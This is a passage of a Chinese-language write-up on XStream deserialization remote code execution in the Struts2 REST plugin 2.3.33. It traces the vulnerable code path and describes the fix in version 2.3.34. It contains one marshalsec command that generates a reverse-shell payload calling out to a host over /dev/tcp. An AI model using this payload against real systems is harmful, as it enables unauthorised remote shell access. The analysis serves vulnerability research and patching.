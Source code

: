 [![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-649713fdca933a2ece4f807b0a26ef6913cb0c6d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-649713fdca933a2ece4f807b0a26ef6913cb0c6d.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-54fbf3b330beeefc7eaf19ab663003c811a49483.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-54fbf3b330beeefc7eaf19ab663003c811a49483.png)

跟进`XStreamHandler#toObject()`方法，发现调用了`XStream#fromXML()`方法对请求数据进行反序列化。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-07cedaa5e21169e9088cd9f6e9b6c5b19a15cd81.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-07cedaa5e21169e9088cd9f6e9b6c5b19a15cd81.png)

`struts-rest-plugin-2.3.33`依赖的XStream的版本是`1.4.8`。故可以使用`marshalsec`生成`ImageIO`利用链的payload进行RCE的漏洞利用。

可回显PoC
------

对于xstream的反序列化命令执行回显，本人暂时不知道如何实现。&lt;br&gt;  
下面使用`marshalsec`工具生成反弹shell的exploit：

```php
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream ImageIO "/bin/bash" "-c" "bash -i >& /dev/tcp/192.168.166.233/443 0>&1"
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-51ac1e9cb55bd7f82357867a0ad6a024d7d7c1c9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-51ac1e9cb55bd7f82357867a0ad6a024d7d7c1c9.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0f16081a94092ceb2b9c6c8b5c1f47805a5aad2d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0f16081a94092ceb2b9c6c8b5c1f47805a5aad2d.png)

漏洞修复
----

在`struts2-rest-plugin-2.3.34`版本中，将XStream升级到了`1.4.10`版本，且按照XStream官方的推荐(hxxps://x-stream.github.io/security.html)，使用了白名单的方式指定可以反序列化的类型。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-380048a0e4f11ded447a0c029df522d73a2c08a1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-380048a0e4f11ded447a0c029df522d73a2c08a1.png)
